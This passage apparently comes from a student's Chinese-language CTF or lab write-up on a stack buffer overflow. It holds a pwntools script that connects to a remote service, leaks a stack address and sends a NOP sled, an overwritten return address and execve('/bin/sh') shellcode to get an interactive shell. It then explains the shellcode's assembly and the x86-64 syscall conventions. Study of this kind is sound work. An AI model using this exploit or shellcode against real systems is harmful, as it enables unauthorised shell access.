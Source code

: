 ```python
from pwn import *
context.log_level = 'DEBUG'

flag = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05\x00\x00\x00\x00\x00"

conn = remote("47.99.80.189", 10011)

conn.recvuntil("ID:")
conn.sendline("3180103650")

conn.recvuntil("ID:")
conn.sendline("3180103650")

conn.recvuntil("0x")
id_addr = conn.recvuntil("\n", drop = True)

new_ret_addr = p64(int(id_addr,16) - 8).decode("iso-8859-1")

payload = "\x90"*(256+8) + new_ret_addr + flag


conn.recvuntil("me!")
conn.sendline(payload)

conn.interactive()
```



#### 1.2 shellcode分析

​		我从[shellstorm](http://shell-storm.org/shellcode/)中找了一份适合linux x86-64的执行system(/bin/sh)的shellcode，其对应的shell代码具体如下：

```assembly
    xor eax, eax
    mov rbx, 0xFF978CD091969DD1
    neg rbx
    push rbx
    push rsp
    pop rdi
    cdq
    push rdx
    push rdi
    push rsp
    pop rsi
    mov al, 0x3b
    syscall
```

​		首先，我们要清楚x86-64的system call的参数传递，在调用system call前，我们需要将系统调用编号保存到`%rax`，将参数依次存到`%rdi, %rsi, %rdx`中，然后再执行syscall指令即可。而我们要执行的syscall类型为 sys_execve，对应的参数：`%rax = 0x3b, %rdi = filename, %rsi = argv[], %rdx = envp[]`.
